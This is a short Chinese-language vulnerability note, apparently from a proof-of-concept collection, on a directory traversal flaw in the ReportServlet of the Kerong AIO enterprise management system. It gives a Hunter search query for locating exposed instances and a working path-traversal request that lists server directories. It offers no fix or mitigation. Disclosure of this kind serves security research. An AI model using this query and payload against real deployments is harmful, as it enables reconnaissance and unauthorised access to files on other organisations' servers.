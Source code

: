# 科荣 AIO 管理系统 ReportServlet 存在目录遍历漏洞

# 一、漏洞简介
科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统 ReportServlet 存在目录遍历漏洞。

# 二、影响版本
+ 科荣 AIO 管理系统 

# 三、资产测绘
+ hunter`app.name="科荣 AIO"`
+ 特征

![1699631783798-97153184-155c-4762-9c58-b7c8334bc638.png](./img/d0I-odb_X4vG0cJx/1699631783798-97153184-155c-4762-9c58-b7c8334bc638-658775.png)

# 四、漏洞复现
```plain
/ReportServlet?operation=getFileList&path=../../../
```

![1703605287356-07bc4a86-49d8-48fd-b476-7346b62ee0de.png](./img/d0I-odb_X4vG0cJx/1703605287356-07bc4a86-49d8-48fd-b476-7346b62ee0de-355215.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sl2fy096ko7xcihw>